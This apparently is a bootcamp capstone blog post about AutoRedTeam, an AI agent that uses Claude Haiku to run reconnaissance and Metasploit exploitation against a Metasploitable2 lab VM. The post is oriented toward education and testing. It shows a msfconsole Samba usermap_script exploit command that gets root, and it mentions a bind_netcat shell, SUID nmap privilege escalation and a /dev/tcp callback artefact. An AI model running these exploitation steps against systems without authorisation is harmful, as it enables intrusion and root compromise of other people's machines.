





# Building AutoRedTeam: An AI-Powered Autonomous Penetration Testing Agent

*By Jagdish Halde — AI for Cybersecurity Bootcamp Capstone, 2026*

---

## Introduction

Penetration testing is one of the most skill-intensive and time-consuming disciplines in cybersecurity. A seasoned pentester manually runs dozens of tools, cross-references thousands of CVEs, chains vulnerabilities together, and writes detailed reports — all of which can take days on a single target.

I spent 8 days building **AutoRedTeam**: an AI agent that runs a complete 5-phase penetration test autonomously, from passive reconnaissance through exploitation, and generates a professional report with remediation playbooks. This post walks through how it works, what I learned, and — critically — **where AI helps, where it falls short, and where you absolutely need a human in the loop**.

> ⚠️ **Disclaimer:** AutoRedTeam was built for authorised security testing and education only. All tests were performed against Metasploitable2, a deliberately vulnerable VM I own. Never scan systems without written permission.

---

## The Problem AI Is Solving Here

A typical pentest workflow looks like this:

```
whois → nmap → nikto → gobuster → enum4linux →
searchsploit → CVE lookup → exploit staging → report
```

Each step involves:
- Knowing which tool to run next based on what you found
- Looking up CVEs for every service version discovered
- Cross-referencing exploit databases
- Writing structured findings with CVSS scores, ATT&CK mappings, and remediation steps

This is repetitive, pattern-based work — exactly where AI excels. The *judgment calls* — deciding if a finding is a real risk in a specific business context, choosing whether to execute an exploit, determining blast radius — that's where humans are irreplaceable.

---

## Architecture Overview



```
┌────────────────────────────────────────────────────────┐
│                  AutoRedTeam Agent                     │
│           (Claude Haiku + Tool Use API)                │
└──────┬──────────────┬──────────────┬───────────────────┘
       │              │              │
┌──────▼──────┐ ┌─────▼──────┐ ┌────▼──────────┐
│ Local Tools │ │ RAG Layer  │ │ Kali MCP      │
│ nmap, nikto │ │ ChromaDB   │ │ Server        │
│ gobuster    │ │ 2000+ CVEs │ │ hydra, sqlmap │
│ enum4linux  │ │ 697 TTPs   │ │ masscan, ffuf │
│ searchsploit│ │ Llama 3.1  │ │ msfconsole   │
└──────┬──────┘ └─────┬──────┘ └────┬──────────┘
       │               │              │
       └───────────────▼──────────────┘
                ┌───────────────┐
                │  Report Gen   │
                │ Markdown+HTML │
                │ Remediation   │
                │ ATT&CK Mapping│
                └───────────────┘
```

### Key Components

| Component | Technology | Purpose |
|-----------|-----------|---------|
| **Agent Orchestrator** | Claude Haiku (Anthropic Tool Use API) | Decides which tool to call next, analyses results, writes report |
| **CVE Knowledge Base** | ChromaDB + 2000+ NVD entries | Semantic search over high/critical CVEs |
| **ATT&CK Knowledge Base** | ChromaDB + 697 MITRE techniques | Maps findings to ATT&CK TTPs |
| **CVE Analyzer** | Llama 3.1 8B (QLoRA fine-tuned) | Deep CVE analysis in expert pentest language |
| **Remote Tools** | Kali MCP Server (HTTP REST) | Runs Kali Linux tools from the macOS agent |
| **Target** | Metasploitable2 (UTM VM) | Deliberately vulnerable Linux VM |

---

## The 5-Phase Workflow



AutoRedTeam runs a structured 5-phase workflow — the same phases a human pentester follows:

### Phase 1 — Passive Reconnaissance
The agent runs WHOIS, reverse DNS, and theHarvester OSINT *before sending a single packet to the target*. This is important: passive recon lets you build a profile of the target without triggering IDS alerts.

```
[Tool 1] whois_lookup       → private RFC-1918 address, no ASN
[Tool 2] dns_recon          → PTR: metasploitable.localdomain
[Tool 3] theharvester_scan  → skipped (IP target)
```

### Phase 2 — Active Scanning
Now the agent sends packets. It runs nmap for service/version detection, then drills into specific services with nikto (web vulnerabilities), gobuster (directory brute-force), and enum4linux (SMB null session enumeration). If the Kali MCP server is reachable, it prefers Kali tools which have more options.

```
[Tool 4]  nmap_scan       → vsftpd 2.3.4, Samba 3.0.20, Apache 2.2.8,
                            UnrealIRCd 3.2.8.1, distccd, MySQL, VNC...
[Tool 5]  nikto_scan      → 8 web findings on port 80
[Tool 6]  gobuster_scan   → /phpMyAdmin, /dvwa, /dav discovered
[Tool 7]  enum4linux_scan → 35 users, null session, world-writable shares
```

### Phase 3 — Vulnerability Intelligence
For each service discovered, the agent queries the CVE RAG database, searches ExploitDB via searchsploit, and runs the fine-tuned Llama model on the top critical CVEs. It also queries the ATT&CK database to map findings to techniques.

```
[Tool 8]  searchsploit_lookup  → EDB-17491 vsftpd backdoor, EDB-16320 Samba RCE
[Tool 9]  query_cve_database   → CVE-2011-2523 CVSS 9.8, CVE-2007-2447 CVSS 10.0
[Tool 10] analyze_cve_with_model → expert analysis from Llama 3.1 8B
[Tool 11] query_attack_techniques → T1190, T1021.002, T1078, T1195.002
```

### Phase 4 — Exploitation (Suggest Only)
The agent stages Metasploit modules and attempts exploitation — but **never executes destructive payloads autonomously**. It uses `cmd/unix/bind_netcat` (a simple bind shell) and logs the result. If a session opens, it runs basic post-exploitation commands to confirm access level.

```
[Tool 28] kali_exploit → msfconsole: use exploit/multi/samba/usermap_script;
                          set RHOSTS 192.168.64.8; set LHOST 192.168.64.7; run
          → Session 3 opened: uid=0(root) gid=0(root)
```

### Phase 5 — Report Generation
The agent writes a structured Markdown report, which is then enhanced with a remediation playbook (exact fix commands per finding) and rendered as an HTML dashboard. ATT&CK technique IDs are included for every finding.

---

## RAG: Teaching the Agent About CVEs

A standard LLM doesn't have up-to-date CVE knowledge. I built a RAG (Retrieval-Augmented Generation) pipeline using ChromaDB:

### Ingesting CVE Data
```python
# Pull 2000+ HIGH/CRITICAL CVEs from NVD 2.0 API
python3 -m rag.ingest_cve      # ~5 min with API key

# Pull 697 ATT&CK Enterprise techniques from STIX bundle
python3 -m rag.ingest_attack   # ~2 min
```

### How Queries Work
When the agent calls `query_cve_database("vsftpd 2.3.4")`, the query is embedded using `all-MiniLM-L6-v2` and semantically searched against the ChromaDB vector store. The top-3 matching CVEs are returned with CVSS scores, descriptions, and affected versions — all in under 100ms.

This means the agent doesn't hallucinate CVE IDs. It only references CVEs that exist in the database, pulled directly from NVD.

---

## Fine-Tuning Llama 3.1 8B for CVE Analysis

The base Llama 3.1 8B model can discuss CVEs generically. After fine-tuning on 500 expert CVE analysis pairs, it speaks in pentest language: "exploitation requires only network access to port 21", "attack chains naturally with SUID nmap for privilege escalation", "no credentials required — a single malformed RPC request delivers root".

### Training Pipeline
```
1. Generate 500 training pairs (Claude Haiku → synthetic expert analyses)
2. Upload to Google Colab (T4 GPU, free tier)
3. Fine-tune with Unsloth QLoRA (4-bit quantisation)
4. 3 epochs, 41.9M trainable parameters
5. Loss: 1.92 → 0.73 (62% reduction)
```



The model is used as a fallback when the fine-tuned weights are present locally. When not available (e.g. in a CI environment), the agent falls back to Claude Haiku automatically — same prompt format, same output structure.

---

## The Kali MCP Server

One of the more interesting engineering pieces is the **Kali MCP Server** — a lightweight HTTP server running on the Kali Linux VM that lets the macOS agent call any Kali tool remotely.

```python
# POST /call on Kali VM
{
  "category": "recon",
  "tool": "nmap",
  "args": ["-sV", "-sC", "192.168.64.8"],
  "timeout": 120
}
```

The server has a strict allowlist — only whitelisted binaries in whitelisted categories can be executed. This prevents prompt injection attacks from turning the MCP server into a general-purpose command executor.

```python
ALLOWED = {
    "recon":           {"nmap", "masscan", "theHarvester", ...},
    "web_scan":        {"nikto", "gobuster", "sqlmap", "ffuf", ...},
    "smb_enum":        {"enum4linux-ng", "smbmap", "crackmapexec", ...},
    "exploit":         {"msfconsole", "searchsploit", "msfvenom"},
    "password_attack": {"hydra", "john", "hashcat", ...},
    "post_exploit":    {"shell", "id", "whoami", "cat", "ls", ...},
}
```

The agent prefers Kali tools when the server is reachable and falls back to local tools gracefully when it's not.

---

## Lab Network Setup (UTM on Apple Silicon)



Getting the networking right was the hardest part of the build. Here's what works on Apple Silicon:

```
macOS Host (Apple Silicon M-series)
└── UTM Hypervisor
    └── Shared Network (192.168.64.0/24)
        ├── Kali Linux ARM64   → 192.168.64.7  (Virtualization framework)
        └── Metasploitable2    → 192.168.64.8  (QEMU x86_64 emulation)
```

**Key lessons:**
- UTM's **Shared Network** puts all VMs on the same 192.168.64.x subnet — VMs can reach each other directly, and macOS can initiate connections to them
- **VPN breaks everything** — VPN clients modify macOS `pf` rules and break UTM's bridge networking. Disconnect VPN before starting VMs
- For ARM64 Kali, use **Virtualize mode** (not Emulate) and set display to `virtio-gpu-pci`
- For x86_64 Metasploitable2, use **Emulate mode** with QEMU

---

## Results: What the Agent Found



Running against Metasploitable2 with Kali on the same network:

| Severity | Count | Examples |
|----------|-------|---------|
| **CRITICAL** | 6 | vsftpd backdoor, Samba RCE, UnrealIRCd backdoor, distccd RCE, bindshell, null session |
| **HIGH** | 6 | Anonymous FTP, Telnet, phpMyAdmin exposed, MySQL, VNC, Java RMI |
| **MEDIUM** | 4 | OpenSSH outdated, NFS exports, SMTP SSLv2, BIND outdated |
| **TOTAL** | **16** | Across 30+ open ports |

**Root shell confirmed** via `exploit/multi/samba/usermap_script` → Session opened → `uid=0(root) gid=0(root)`

Post-exploitation evidence collected:
- Kernel: `Linux 2.6.24 (2008)` — vulnerable to Dirty COW
- SUID nmap — privesc via `nmap --interactive`
- 35 user accounts enumerated
- World-writable `/tmp` share

The most satisfying moment: when I moved both VMs to the same network, the agent found **7 additional findings** that were hidden behind the port forwarding limitation. Full network access = full attack surface.

---

## What AI Does Well

Based on building and running AutoRedTeam, here's where AI genuinely adds value in penetration testing:

### ✅ Tool Orchestration
The agent correctly decides to run `enum4linux` after seeing port 445 open, runs `gobuster` after finding a web server, and pivots to Metasploit after finding a known-exploitable version. This multi-step chaining is where Claude Haiku's tool-use capability shines.

### ✅ CVE Cross-Referencing
Searching 2000+ CVEs for every discovered service and returning relevant findings with CVSS scores is exactly the kind of high-throughput lookup work AI handles well. A human would need hours to do this manually for 30 services.

### ✅ Structured Report Writing
The agent produces consistent, well-structured reports every run. The format is identical whether there are 5 findings or 20 — with ATT&CK mappings, CVSS scores, evidence blocks, and remediation playbooks.

### ✅ Pattern Recognition
The agent correctly identifies supply-chain backdoors (vsftpd, UnrealIRCd), binds distccd to CVE-2004-2687, and maps null session SMB to T1087.001. These are patterns a junior analyst might miss.

### ✅ Speed
A full run — 30+ ports, 16 findings, exploitation, and a 300-line report — completes in under 30 minutes. The same work done manually would take a full day.

---

## What AI Can't Do

This is the more important half of the picture.

### ❌ Understand Business Context
The agent reports "MySQL is exposed on 0.0.0.0:3306" as HIGH severity. A human pentester might de-prioritise this if the MySQL server only holds test data with no PII — or escalate it if it's a production payment database. The agent has no business context.

### ❌ Chain Novel Vulnerabilities
AutoRedTeam runs known tools against known CVEs. It won't discover a logic flaw in a custom web application, identify a business process bypass, or chain a low-severity misconfiguration with an unusual privilege escalation path. Creative exploitation still requires human intuition.

### ❌ Accurate Severity Calibration (Without Tuning)
When I switched from Claude Sonnet to Claude Haiku to save API costs, Haiku over-classified several findings. OpenSSH 4.7p1 became CRITICAL (it's MEDIUM — no direct RCE). Telnet was CRITICAL (it's HIGH — no exploitation, just cleartext). CVSS scoring nuance requires human review.

### ❌ Handle Novel Environments
The agent assumes a standard Linux target. It struggles with Windows Active Directory environments, cloud-native architectures, containerised workloads, or anything that doesn't match its training distribution.

### ❌ Avoid False Positives
Nikto returned 8 web findings. Two were false positives from default Apache configuration pages that were actually harmless in this context. The agent reported them faithfully — a human would filter them.

---

## Where Human-in-the-Loop is Required

This is the critical section. Here are the specific points in the AutoRedTeam workflow where a human **must** be involved:

### 1. Authorization (Before Any Run)
**The agent cannot verify authorization.** You must have written permission to test the target. AutoRedTeam has no mechanism to check this — it will happily scan any IP you give it. The human is the last line of defense here.

```python
# SECURITY_RULES in config.py
# "Only scan systems you own or have written permission to test"
```

### 2. Exploit Execution Decision
The agent **suggests** exploits and even stages them — but it uses non-destructive payloads (`bind_netcat`) and doesn't pivot, exfiltrate, or establish persistence. A human must decide:
- Is it safe to run this exploit in this environment?
- Could it cause a DoS?
- Is the customer's approval scoped to include active exploitation?

### 3. Report Review Before Delivery
Before sending a pentest report to a client, a human must:
- Verify every finding is real (remove false positives)
- Calibrate severity to business context
- Validate that remediation commands are correct for the target OS/version
- Ensure no sensitive data from the target (passwords, PII) leaked into the report

### 4. Remediation Decisions
The agent generates remediation playbooks with exact commands. But "upgrade Samba to 4.18" might break other software on the target. "Disable anonymous FTP" might break a legacy integration. A human must assess the blast radius of each fix.

### 5. Exploitation Evidence Interpretation
The agent found `uid=0(root)` via the Samba exploit. That's clear. But it also found `bash: /dev/tcp/192.168.64.7/4444: No such file or directory` from distccd — which *is* evidence of RCE (the command ran on the target, it just couldn't reach back). A junior analyst might miss this. The agent reported it correctly, but confirming the interpretation requires experience.

### 6. Ethical Judgment Calls
The agent found 35 usernames via SMB null session, `/etc/passwd` contents, and a world-readable database. A human must decide what to include in the report versus what might be unnecessarily sensitive to enumerate further.

---

## Lessons Learned

### 1. Network Architecture is Everything
The biggest impact on scan quality came from putting both VMs on the same network. Moving from port-forwarded `127.0.0.1` to direct `192.168.64.x` access revealed 7 additional findings — UnrealIRCd, distccd, bindshell, VNC, Java RMI, NFS, and SMTP. Full network access = full attack surface.

### 2. Model Choice Matters for Quality
I compared Claude Sonnet and Claude Haiku on the same target:
- **Sonnet**: 16 findings, accurate severity, correct CVSS calibration
- **Haiku**: 21 findings, several severity over-classifications (OpenSSH as CRITICAL)

Haiku found more but with less accuracy. For a lab capstone, Haiku's cost savings (~75% cheaper) are worth the trade-off. For a client engagement, you'd want Sonnet.

### 3. VPN Breaks UTM Networking
Disconnect your VPN before running VMs. VPN clients modify macOS `pf` rules and break UTM's bridge networking. This caused hours of debugging — failed pings, SSH timeouts, API connection errors mid-run. Simple fix: VPN off.

### 4. RAG Beats Hallucination
Using ChromaDB RAG for CVE lookups eliminated hallucinated CVE IDs. The agent only references CVEs that exist in the NVD database. Without RAG, LLMs confidently invent plausible-sounding but nonexistent CVE numbers.

### 5. The Agentic Loop Needs a Stop Condition
Without a `MAX_TOOL_CALLS = 40` limit, the agent would keep running tools indefinitely, especially on a target with 30+ services. Always build a stop condition into agentic loops.

---

## How to Build Your Own

The full source is open at the community capstone repo. Here's the minimum to get started:

### Prerequisites
```bash
# macOS
brew install nmap nikto gobuster samba exploitdb
pip install git+https://github.com/cddmp/enum4linux-ng

# Python packages
pip install -r requirements.txt
```

### Environment
```bash
ANTHROPIC_API_KEY=sk-ant-...
NVD_API_KEY=your-nvd-key       # free at nvd.nist.gov
KALI_MCP_URL=http://192.168.64.7:8765  # optional
```

### Build the Knowledge Base
```bash
python3 -m rag.ingest_cve      # 2000+ CVEs, ~5 min
python3 -m rag.ingest_attack   # 697 ATT&CK techniques, ~2 min
python3 test_rag.py            # validate
```

### Run
```bash
python3 -m agent.agent 192.168.64.8 --ports 1-65535
```

---

## Future Directions

The most impactful things I'd add next:

1. **Multi-target scanning** — accept a CIDR, fan out across all hosts in parallel
2. **Nuclei integration** — 9000+ community templates via Kali MCP
3. **Agentic memory** — persist findings across runs to detect regressions
4. **Cloud targets** — AWS/Azure/GCP enumeration with boto3/az cli

---

## Closing Thoughts

AutoRedTeam demonstrates something important: AI doesn't replace pentesters, it **augments** them. The agent is excellent at high-throughput, pattern-based work — tool chaining, CVE lookup, report writing. It's poor at business context, novel vulnerability discovery, and ethical judgment.

The right mental model is **AI as a junior analyst**. It runs the playbook reliably and fast, surfaces the known vulnerabilities, and hands off a structured brief. The senior pentester reviews it, adds context, verifies the findings, and makes the hard calls.

Building this project, I went from "AI will replace security professionals" to "AI will let one security professional do the work of five — but only if they know what to review and what to trust." The human in the loop isn't a limitation of the technology. It's the design.

---

*Source code: [github.com/The-Cyber-Instructor-Community/AI-for-cybersecurity-bootcamp-projects](https://github.com/The-Cyber-Instructor-Community/AI-for-cybersecurity-bootcamp-projects) — jhalde/ folder*

*Questions or feedback: halde.jagdish@gmail.com*
